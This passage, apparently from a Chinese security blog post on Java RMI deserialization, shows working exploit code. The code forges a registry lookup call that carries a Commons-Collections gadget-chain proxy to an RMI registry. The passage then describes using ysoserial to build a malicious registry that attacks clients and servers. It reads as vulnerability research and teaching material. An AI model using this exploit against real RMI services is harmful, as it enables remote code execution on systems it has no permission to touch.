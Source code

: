```
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);

        // 获取super.ref
        Field[] fields_0 = registry_remote.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry_remote);

        // 获取operations
        Field[] fields_1 = registry_remote.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry_remote);

        // 跟lookup方法一样的传值过程
        RemoteCall var2 = ref.newCall((RemoteObject) registry_remote, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(proxyEvalObject);
        ref.invoke(var2);

        registry_remote.lookup("HelloRegistry");
        System.out.println("rmi start at 3333");
    }
}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201224121437-8956771e-459e-1.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201224121437-8956771e-459e-1.jpg)

可以看到，即使报了字符转换的`error`，还是利用成功了。

除了这种伪造请求，还可以`rasp hook请求代码，修改发送数据`进行利用，现在还没接触过 rasp，就先不复现了。

### 二、注册中心攻击客户端与服务端

从上面的代码中也可以看出来，客户端和服务端与注册中心的参数交互都是把数据序列化和反序列化来进行的，那这个过程中肯定也是存在一个对注册中心返回的数据的反序列化的处理，这个地方也存在反序列化漏洞风险。(详细分析可以看 Bypass JEP290 部分)

可以用 ysoserial 生成一个恶意的注册中心，当调用注册中心的方法时，就可以进行恶意利用。
